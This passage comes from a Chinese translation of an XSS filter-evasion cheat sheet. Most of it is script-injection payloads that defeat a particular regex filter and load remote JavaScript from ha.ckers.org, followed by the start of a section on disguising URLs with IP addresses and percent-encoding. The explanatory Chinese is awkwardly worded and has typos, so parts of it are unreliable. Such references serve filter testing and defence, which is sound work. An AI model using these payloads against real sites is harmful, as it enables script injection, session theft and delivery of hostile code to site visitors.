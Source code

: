 ```
<SCRIPT a=">" SRC="http://ha.ckers.org/xss.js"> 
```

为了执行 xss 代码在那些允许输入"<SCRIPT>" 但不允许 "<script src..."靠正则拼配"/<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)src/i"   （这个是重要的，因为我已经看到这个正则在实际环境中。）

```
<SCRIPT =">" SRC="http://ha.ckers.org/xss.js"></SCRIPT> 
```

另一个逃避相同正则 "/<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)src/i"的 xss 代码

```
<SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT> 
```

这是另一个 xss 例子去绕过相同的过滤器，关于"/<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)src/i"的正则过滤。我知道，我说过我将不会去痛痛快快的聊减灾技术。但是这是我所看到的唯一例子在允许用户输入<SCRIPT>但是不允许通过 src 加在远程脚本的过滤这个 xss 的可用方法。（当然，还有一些其他方法去处理它，如果它们允许<SCRIPT> ）

```
<SCRIPT "a='>'" SRC="http://ha.ckers.org/xss.js"></SCRIPT> 
```

最后一个绕过"/<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)src/i"正则匹配的例子，通过重音符。（再以无法工作在 firfox）

```
<SCRIPT a=`>` SRC="http://ha.ckers.org/xss.js"></SCRIPT> 
```

这个 xss 例子押注域哪些正则并不去拼配一对引号，而是去发现任何引号后就立即结束参数字符串。

```
<SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT> 
```

这 xss 仍然让我担心，因为他是几乎没有肯呢过去停止在没有阻止活动内容的情况下。

```
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT> 
```

## URL 字符串绕过

这里假设 "http://www.google.com/" 这种在语法上是不被允许的。

**IP 代替域名**

```
<A HREF="http://66.102.7.147/">XSS</A> 
```

**URL 编码**

```
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A> 
```

**双字节编码**
（注意：有其他的双字节编码变种。请参考下面混淆后的 ip 为更多信息）
